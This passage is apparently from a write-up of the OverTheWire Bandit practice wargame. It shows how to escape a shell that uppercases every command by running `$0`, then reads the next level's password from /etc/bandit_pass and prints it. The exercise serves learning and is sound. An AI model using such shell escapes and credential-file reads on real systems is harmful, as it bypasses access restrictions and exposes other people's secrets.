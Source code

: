 This fact makes the shell unusable for us, the uppercase commands do not work.

We can though spawn a normal shell. Use the variable `$0`.

```
>> $0
$
```

Seems to work...

```
$ whoami
bandit33
$ pwd
/home/bandit32
$ ls -al
total 36
drwxr-xr-x  2 root     root      4096 Oct  5  2023 .
drwxr-xr-x 70 root     root      4096 Oct  5  2023 ..
-rw-r--r--  1 root     root       220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root     root      3771 Jan  6  2022 .bashrc
-rw-r--r--  1 root     root       807 Jan  6  2022 .profile
-rwsr-x---  1 bandit33 bandit32 15128 Oct  5  2023 uppershell
$ cat /etc/bandit_pass/bandt33
cat: /etc/bandit_pass/bandt33: No such file or directory
$ cat /etc/bandit_pass/bandit33
odHo63fHiFqcWWJG9rLiLDtPm45KzUKy
```

## Level 34

### Task

At this moment, level 34 does not exist yet.
